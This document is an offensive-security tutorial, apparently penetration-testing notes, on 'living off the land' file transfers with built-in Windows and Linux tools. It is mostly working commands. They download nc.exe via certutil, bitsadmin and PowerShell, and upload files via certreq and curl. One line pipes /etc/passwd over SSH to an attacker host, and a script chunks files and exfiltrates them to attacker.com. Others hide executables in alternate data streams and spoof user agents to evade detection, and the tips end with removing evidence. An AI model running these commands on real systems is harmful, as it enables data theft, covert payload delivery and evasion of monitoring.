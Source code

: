 # Living off the Land - File transfers

## Living off The Land File Transfers

Living off the Land (LOL) techniques use built-in system utilities to perform operations rather than introducing external tools. For file transfers, these techniques help avoid detection by using legitimate binaries that already exist on the target system.

### Understanding LOLBins

The term LOLBins (Living off the Land binaries) originated from a Twitter discussion about binaries that attackers can use beyond their intended purpose. Two main resources document these binaries:

* [LOLBAS Project for Windows Binaries](https://lolbas-project.github.io/)
* [GTFOBins for Linux Binaries](https://gtfobins.github.io/)

LOLBins can perform various functions including:

* File downloads and uploads
* Command execution
* File read and write operations
* Security bypass techniques

### Windows LOLBins for File Transfers

#### CertReq.exe

CertReq is a Windows certificate request tool that can be repurposed to upload files.

```cmd
# Upload a file to remote server
certreq.exe -Post -config http://192.168.49.128:8000/ c:\windows\win.ini
```

On the receiving end, a simple netcat listener will capture the uploaded content:

```bash
# Receive file on attacker machine
sudo nc -lvnp 8000
```

Example output:

```
POST / HTTP/1.1
Cache-Control: no-cache
Connection: Keep-Alive
Pragma: no-cache
Content-Type: application/json
User-Agent: Mozilla/4.0 (compatible; Win32; NDES client 10.0.19041.1466/vb_release_svc_prod1)
Content-Length: 92
Host: 192.168.49.128:8000

; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1
```

#### Bitsadmin

The Background Intelligent Transfer Service (BITS) is designed for file transfers with bandwidth throttling.

```cmd
# Download file using bitsadmin
bitsadmin /transfer wcb /priority foreground http://10.10.15.66:8000/nc.exe C:\Users\htb-student\Desktop\nc.exe
```

PowerShell also provides BITS capabilities:

```powershell
# Download using PowerShell BITS module
Import-Module bitstransfer
Start-BitsTransfer -Source "http://10.10.10.32:8000/nc.exe" -Destination "C:\Windows\Temp\nc.exe"
```

#### Certutil

Certutil is a Windows certificate management tool that can download files:

```cmd
# Download file using certutil
certutil.exe -verifyctl -split -f http://10.10.10.32:8000/nc.exe

# Alternative download syntax
certutil.exe -urlcache -split -f http://10.10.10.32:8000/nc.exe
```

Note: Modern antivirus solutions often flag certutil download operations.

### Linux LOLBins for File Transfers

#### OpenSSL

OpenSSL is commonly used for cryptographic operations but can transfer files similarly to netcat.

**Server Side Setup**

```bash
# Create a certificate
openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem

# Start server to send a file
openssl s_server -quiet -accept 80 -cert certificate.pem -key key.pem < /tmp/LinEnum.sh
```

**Client Side Download**

```bash
# Download the file
openssl s_client -connect 10.10.10.32:80 -quiet > LinEnum.sh
```

#### Wget and Curl

While primarily download tools, they can be used for uploads in combination with web servers:

```bash
# Upload with curl to a server supporting POST uploads
curl -X POST -F "file=@/path/to/local/file" http://server.com/upload

# Upload via wget POST request
wget --post-file=/path/to/local/file http://server.com/upload
```

#### SSH/SCP/SFTP

These tools are designed for secure file transfers but can be considered LOLBins when used creatively:

```bash
# Exfiltrate data using SSH
cat /etc/passwd | ssh user@attacker "cat > passwd.txt"
```

### Advanced LOL Techniques

#### Alternate Data Streams (Windows)

```cmd
# Store file in alternate data stream
type nc.exe > "C:\Program Files\legit.txt:nc.exe"

# Execute from alternate data stream
wmic process call create '"C:\Windows\System32\cmd.exe" /c powershell -command "$(cat C:\Program Files\legit.txt:nc.exe)"'
```

#### Base64 Command Line Transfers

```powershell
# PowerShell encode and transfer via clipboard
[Convert]::ToBase64String([System.IO.File]::ReadAllBytes("C:\path\to\file.exe"))
# (Copy output to clipboard)
```

```bash
# Linux decode from clipboard
echo "BASE64_STRING" | base64 -d > file.exe
```

### Detection Evasion Techniques

#### Modifying User-Agent Strings

```powershell
# PowerShell custom user agent
$WebClient = New-Object System.Net.WebClient
$WebClient.Headers.Add("User-Agent", "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36")
$WebClient.DownloadFile("http://10.10.10.32:8000/nc.exe", "nc.exe")
```

#### Traffic Encryption

```bash
# OpenSSL encrypted transfer
# Sender:
cat file | openssl enc -aes-256-cbc -pass pass:password | nc 10.10.10.32 8000

# Receiver:
nc -lvnp 8000 | openssl enc -aes-256-cbc -d -pass pass:password > file
```

#### Transfer Chunking

```powershell
# Split file into chunks
$file = Get-Content -Raw "large_file.exe"
$chunks = [System.Collections.ArrayList]@()
$chunkSize = 1024
for ($i = 0; $i -lt $file.Length; $i += $chunkSize) {
    if ($i + $chunkSize -gt $file.Length) {
        $chunk = $file.Substring($i)
    } else {
        $chunk = $file.Substring($i, $chunkSize)
    }
    $chunks.Add($chunk) | Out-Null
}

# Transfer each chunk individually
foreach ($chunk in $chunks) {
    Invoke-WebRequest -Uri "http://attacker.com/exfil?data=$chunk" -Method GET
}
```

### Identifying Transfer Capabilities

When assessing which LOLBins to use for file transfers, check for available tools:

```bash
# Linux: Check for common tools
which curl wget python nc netcat openssl ssh scp 2>/dev/null

# Additional check for Python modules
python3 -c "help('modules')" | grep -E "(http|ftplib|requests)"
```

```powershell
# Windows: Check for common transfer tools
Where-Object { Test-Path $_ } -Value @(
    "$env:SystemRoot\System32\certutil.exe",
    "$env:SystemRoot\System32\bitsadmin.exe",
    "$env:SystemRoot\System32\certreq.exe"
)
```

### Best Practices

1. **Use native tools first** to avoid introducing new binaries
2. **Test transfers beforehand** in similar environments
3. **Consider size limitations** of different methods
4. **Be aware of logging mechanisms** that might detect LOLBin abuse
5. **Clean up after transfers** to remove evidence
6. **Use encrypted transfers** when possible
